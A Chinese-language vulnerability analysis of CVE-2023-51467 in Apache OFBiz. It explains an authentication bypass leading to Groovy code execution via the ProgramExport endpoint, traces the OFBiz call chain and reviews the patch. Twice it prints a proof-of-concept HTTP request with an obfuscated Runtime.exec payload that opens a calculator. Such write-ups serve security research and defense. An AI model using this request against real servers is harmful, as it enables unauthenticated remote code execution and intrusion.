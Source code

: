 

# 奇安信攻防社区-Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

### Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

作者：le1a@threatbook  
校验：jweny@threatbook

# 漏洞分析

在上一次的漏洞 CVE-2023-49070 中，修复方式仅仅是删除了 XML-RPC 模块，但全局的权限登陆校验的 Filter 仍未修复，导致了依然可以权限绕过去调用其他后台接口。这次漏洞就是与 ProgramExport 模块相关。

ProgramExport 模块是 OFbiz 中的一个模块，用于将 Groovy 脚本导出为 Java 类。它允许您在 OFbiz 中使用 Groovy 脚本，而无需将它们编译成 Java 字节码。

有趣的是，该后台漏洞在 20 年就披露了，而当时由于需要鉴权，所以被官方驳回，而修复的方案仅仅是不允许创建 jsp 文件......

![企业微信截图_e697c48e-244c-4dde-96d7-13e48043576d.png](assets/1705301836-43eac379c7e981f583a8f2933f04707e.png)

![企业微信截图_c67fb175-0b79-457a-a18d-c163df7c2526.png](assets/1705301836-f3c2c387977f0c5150198a9a88b766c6.png)

言归正传，根据上一次漏洞的权限绕过 payload 可构造如下 POC：

```http
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

将断点打在 ProgramExport.groovy

![image-20231227212745859.png](assets/1705301836-f1f7f1eb624b6464c82c8291b6df9082.png)

入口点在`ControlServlet#doGET()`中，然后调用了`handler.doRequest()`方法。在调用`handler.doRequest()`之前，主要是做请求预处理，包括获取用户会话信息、设置响应头、准备 delegator、dispatcher、security 等对象，以及打印调试日志等。这些预处理为后续的业务处理提供必要的上下文和资源。

跟进到`handler.doRequest()`

![image-20231227213000932.png](assets/1705301836-2baae73eb5445dc01b62a785653ea910.png)

这里根据`nextRequestResponse.type`的值来选择后续执行逻辑

而 nextRequestResponse 来自于这里

```java
ConfigXMLReader.RequestResponse successResponse = requestMap.requestResponseMap.get("success");
        if ((eventReturn == null || "success".equals(eventReturn)) && successResponse != null && "request".equals(successResponse.type)) {
            // chains will override any url defined views; but we will save the view for the very end
            if (UtilValidate.isNotEmpty(overrideViewUri)) {
                request.setAttribute("_POST_CHAIN_VIEW_", overrideViewUri);
            }
            nextRequestResponse = successResponse;
        }
```

requestMap 中的 requestResponseMap 以及 success Response 是在解析 controller.xml 配置文件时读取并设置的。

具体代码在 ConfigXMLReader 类的 parseRequestMap 方法中：

```java
public void parseRequestMap(Element requestMapElement) {
  RequestMap requestMap = new RequestMap();
  requestMap.securityAuth = "true".equals(requestMapElement.getAttribute("auth"));
  requestMap.securityCert = "true".equals(requestMapElement.getAttribute("cert"));
  requestMap.securityExternalView = "true".equals(requestMapElement.getAttribute("external-view"));
  requestMap.securityDirectRequest = "true".equals(requestMapElement.getAttribute("direct-request")) ;  
  requestMap.securityHttps = "true".equals(requestMapElement.getAttribute("https"));

  // 解析 event、response 等子元素
  List<? extends Element> childElements = UtilXml.childElementList(requestMapElement);
  for (Element childElement: childElements) {
    if ("event".equals(childElement.getTagName())) {
      // 解析 event 元素  
    } else if ("response".equals(childElement.getTagName())) {
      // 解析 response 元素
      RequestResponse requestResponse = new RequestResponse();
      requestResponse.name = childElement.getAttribute("name");
      requestResponse.type = childElement.getAttribute("type"); 
      requestResponse.value = childElement.getAttribute("value");

      requestMap.requestResponseMap.put(requestResponse.name, requestResponse);  
    } else if ("success".equals(childElement.getTagName())) {
      // 解析 success 响应
      RequestResponse successResp = new RequestResponse();
      successResp.type = childElement.getAttribute("type");
      successResp.value = childElement.getAttribute("value");
      requestMap.requestResponseMap.put("success", successResp);
    }
  }

  // 添加到 ControllerConfig 的 map 中
  ccfg.addRequestMap(requestMap); 
}
```

可以看到，在解析每个`<request-map>`时，会解析出其 success 响应，添加到`requestResponseMap`中，供后续使用。

所以 requestMap 和其中的 responses 都是在启动初始化时从配置文件解析和设置的。

在 controller.xml 中也能看到 type 的值为 view

![image-20231227214746879.png](assets/1705301836-68041eb7ea114606c2cca770c8d36416.png)

继续跟进到`renderView()`

![image-20231227214918328.png](assets/1705301836-d1a3127929a6d0c78ede172cb56aa710.png)

这里主要是获取渲染 CONTEXT，并准备好响应头的各种配置，以供后续视图渲染使用。

中间经过几层调用后，来到了关键的`org.apache.ofbizz.widget.model#runSubAction()`

![image-20231227222609957-4254905.png](assets/1705301836-0d55f7bdbb9ae9ba57ca2fdf9b61c5a0.png)

这里执行了 ProgramExport.groovy，而 action 源于上一层调用

![image-20231227222937612](assets/1705301836-74d317e3d028e4169e1fe1610d8c8148.png)

这里的 actions 元素也是从视图配置的 XML 文件中获取的。

![image-20231227223129516](assets/1705301836-1691118d21965c105fe3f49aabc83ea4.png)

![image-20231227223156574](assets/1705301836-33ba8041f5948b5eebc4879e24f7f631.png)

然后继续跟进到`runAction()`

![image-20231227223309371](assets/1705301836-14b947403daaa5a809c1c7dca1e4c8bf.png)

继续跟进

![image-20231227223322564](assets/1705301836-ac94cac61499d02162977106c35761dd.png)

继续跟进

![image-20231227223342357](assets/1705301836-a63a7444d88efaefc3e01d7da8d6a3d2.png)

继续跟进

![image-20231227223430890](assets/1705301836-a29224b3706c97620f180f4a5e1bfb04.png)

最终执行了 Groovy 代码

![image-20231227223743288](assets/1705301836-ebc317d926d7e48683b5b1e78a3a0695.png)

## 补丁分析

在新的补丁中，更改了最后的 login 返回逻辑，如果前面都通过了，不再是根据 requirePasswordChange 的真假来判断，而是直接返回 error，也就是前面传入 Y，使得 requirePasswordChange 为 True 行不通了

![image-20231228001054149](assets/1705301836-feee6d394c631487e51a79abff1441ae.png)

但是仔细观察发现，还有一处`return requirePasswordChange ? "requirePasswordChange" : "error";`没有修改

![image-20231228001317699](assets/1705301836-52e036004c48ed4aaf20f064ca08a5f4.png)

这里使用`isEmpty()`判断是否为空，需要 null 或者长度为 0，所以空字符串正好满足

![image-20231228001446432](assets/1705301836-d3efe68f4cecdd659cc729591a2c3dc8.png)

那是不是 username 和 password 为空就能再次 bypass 呢？？？

经过实际测试发现，在上一个版本的确是可以成功，因为上个版本中的`checklogin`方法调用`login`方法的时候使用的并不是`isEmpty()`，而是判断是否为 null。所以空字符串正好钻了空子，既不等于 null，又满足`isEmpty()`

![image-20231228001819945](assets/1705301836-9f35e6b7865c0428b3d9ab866919eefa.png)

而新版补丁改为了`isEmpty()`，与后续`login()`校验一致，导致没办法绕过了。

# 漏洞复现

1.  网站首页如下图：

![3b83950f29b76e5eae5696d673694929](assets/1705301836-95fb2ac3628b400e1c08871b3b0a45fc.png)

2.使用如下 POC 进行验证

```php
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

![8c57e87e534059003b792e49b7e90d27](assets/1705301836-4ddbe919f8fdd89d96485d52a79bd0c3.png)

